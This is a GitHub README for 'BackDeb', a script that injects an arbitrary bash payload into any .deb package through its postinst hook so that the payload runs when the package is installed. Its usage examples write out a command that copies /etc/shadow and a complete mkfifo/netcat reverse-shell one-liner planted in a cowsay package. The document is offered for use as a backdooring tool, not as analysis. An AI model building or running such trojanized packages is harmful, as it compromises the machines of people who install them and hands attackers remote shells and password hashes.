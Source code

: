 # BackDeb
Simple script to inject bash script inside any .deb package. It utilises postinst scripts as a medium to run user defined bash script. This script depends on dpkg-deb command line to achieve it's task, so make sure you have it on your system.

# Install
```
git clone https://github.com/diego-tella/BackDeb/
cd BackDeb/
chmod +x backdeb.sh
./backdeb.sh
```

# Usage
You can pass the .deb package as the first argument and the bash script to be executed as the second argument.
```
./backdeb.sh file.deb "cat /etc/shadow > /tmp/shadow"
```
The bash script needs to be in double quotes.<br><br>
Get a reverse shell:
```
./backdeb.sh cowsay_3.03+dfsg2-8_all.deb "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f"
```
# Requisites
<li>dpkg-deb</li>
